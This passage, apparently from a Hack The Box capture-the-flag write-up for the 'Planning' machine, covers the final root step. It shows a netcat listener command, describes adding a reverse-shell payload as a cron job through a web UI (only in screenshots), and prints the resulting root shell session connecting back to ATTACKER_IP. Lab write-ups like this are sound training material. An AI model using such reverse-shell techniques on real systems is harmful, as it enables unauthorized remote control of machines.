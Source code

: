 A `nc` listener is started on the attack host.

```
fcoomans@kali:~/htb/planning$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
```

I add the reverse shell payload as a new cron job using the web UI.

![](images/Pasted%20image%2020250705154548.png)

The new `Revshell` cronjob is run.

![](images/Pasted%20image%2020250705154629.png)

#### 🔼 Root

And the `nc` listener catches the rooted reverse shell.

```
fcoomans@kali:~/htb/planning$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.11.68] 39408
bash: cannot set terminal process group (1348): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@planning:/# hostname
hostname
planning
```
